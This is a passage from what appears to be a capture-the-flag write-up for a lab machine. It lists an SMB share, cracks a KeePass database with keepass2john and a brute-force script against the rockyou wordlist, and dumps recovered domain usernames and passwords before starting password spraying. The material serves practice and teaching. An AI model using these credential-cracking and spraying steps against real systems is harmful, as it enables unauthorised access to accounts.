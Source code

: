 ```bash
smb: \> ls
.                                  DR        0  Wed May 28 12:37:00 2025
..                                  D        0  Sat Mar  8 11:52:57 2025
KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
Projects                            D        0  Sat Mar  8 11:53:36 2025
recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025
tiCPYdaK.exe                        A    56320  Wed May 28 12:37:00 2025
```
then use keepsass2john
```bash
keepass2john recovery.kdbx
```
## Bruteforcing kdbx file
```bash
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt

[*] Password found: liverpool
```

## Kdbx file contents

we have all the users:
```bash
Administrator  
Guest  
krbtgt  
levi.james  
ant.edwards  
adam.silver  
jamie.williams  
steph.cooper  
steph.cooper_adm  
```

and all the passwords
```bash
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

So now we have a list of usernames and a list of passwords, lets try all of their combinations to login towards a service, starting with `SMB`

## Password spraying

```bash
ntpdate puppy.htb
```
